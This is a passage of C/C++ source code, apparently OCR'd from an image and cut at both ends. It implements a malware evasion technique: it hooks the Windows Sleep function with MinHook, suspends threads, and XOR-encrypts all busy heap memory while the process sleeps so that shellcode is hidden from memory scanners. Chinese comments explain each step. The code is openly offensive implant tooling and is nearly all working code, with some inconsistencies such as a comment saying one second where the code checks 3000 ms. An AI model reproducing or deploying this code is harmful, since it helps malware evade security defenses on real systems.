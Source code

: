 ```plain
                }
                th.dwSize = sizeof(th);
            } while (Thread32Next(h, &th));
        }
        CloseHandle(h);
    }
}
void xor_bidirectional_encode(IN PBYTE pShellcode, IN SIZE_T sShellcodeSize, IN PBYTE bKey, IN SIZE_T sKeySize) {
    for (size_t i = 0, j = 0; i < sShellcodeSize; i++, j++) {
        if (j > sKeySize) {
            j = 0;
        }
        pShellcode[i] = pShellcode[i] ^ bKey[j % 8] + 1;


    }
}
const char key[] = "DWADWADWAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAASADSADSADSADAS";
size_t keySize = sizeof(key);

PROCESS_HEAP_ENTRY entry;
void Stackencryption() {
    SecureZeroMemory(&entry, sizeof(entry));
    while (HeapWalk(GetProcessHeap(), &entry)) {
        if ((entry.wFlags & PROCESS_HEAP_ENTRY_BUSY) != 0) {
            xor_bidirectional_encode((PBYTE)(entry.lpData), entry.cbData, (PBYTE)key, keySize);
        }
    }
}

void(WINAPI* SleepTest)(DWORD dwMiliseconds);
//Hook Sleep 函数
void WINAPI HookedSleep(DWORD dwMiliseconds) {
    DWORD time = dwMiliseconds;
    if (time > 3000) { //如果时间大于 1 秒的话
        //首先挂起线程
        PendingThread(GetCurrentProcessId(), GetCurrentThreadId());
        //加密
        Stackencryption();

        SleepTest(dwMiliseconds);
        //进行解密
        Stackencryption();
        //然后恢复挂起的线程
        RestoreThreads(GetCurrentProcessId(), GetCurrentThreadId());
    }
    else {
        SleepTest(time);
    }
}
template <typename T>
inline MH_STATUS MH_CreateHookEx(LPVOID pTarget, LPVOID pDetour, T** ppOriginal)
{
    return MH_CreateHook(pTarget, pDetour, reinterpret_cast<LPVOID*>(ppOriginal));
}

template <typename T>
inline MH_STATUS MH_CreateHookApiEx(
    LPCWSTR pszModule, LPCSTR pszProcName, LPVOID pDetour, T** ppOriginal)
{
    return MH_CreateHookApi(
        pszModule, pszProcName, pDetour, reinterpret_cast<LPVOID*>(ppOriginal));
```